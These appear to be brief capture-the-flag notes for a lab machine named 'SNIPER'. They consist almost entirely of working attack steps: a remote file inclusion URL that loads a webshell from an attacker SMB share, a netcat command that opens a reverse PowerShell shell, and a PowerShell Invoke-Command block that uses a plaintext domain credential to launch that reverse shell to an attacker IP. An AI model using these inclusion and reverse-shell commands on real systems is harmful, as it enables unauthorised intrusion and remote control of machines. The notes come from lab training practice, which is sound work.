 ##

http://10.129.107.51/blog/?lang=//10.10.14.4//evil//webshell.php

##

#
WEB RFI doesn't work, but SMB RFI works. Reverse Shell with Pentesting Monkey doesn't work, but Metepreter and WebShell work. 

Created Dir and upload NC to execute powershell to kali. nc.exe -e powershell ip port
#

#
$username = 'SNIPER\Chris'
 $password = '36mEAhz/B8xQ~2VM'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Invoke-command -computername SNIPER -credential $credential -scriptblock { cmd.exe /c "C:\tmp\nc.exe" -e powershell 10.10.14.39 1234 }
 #
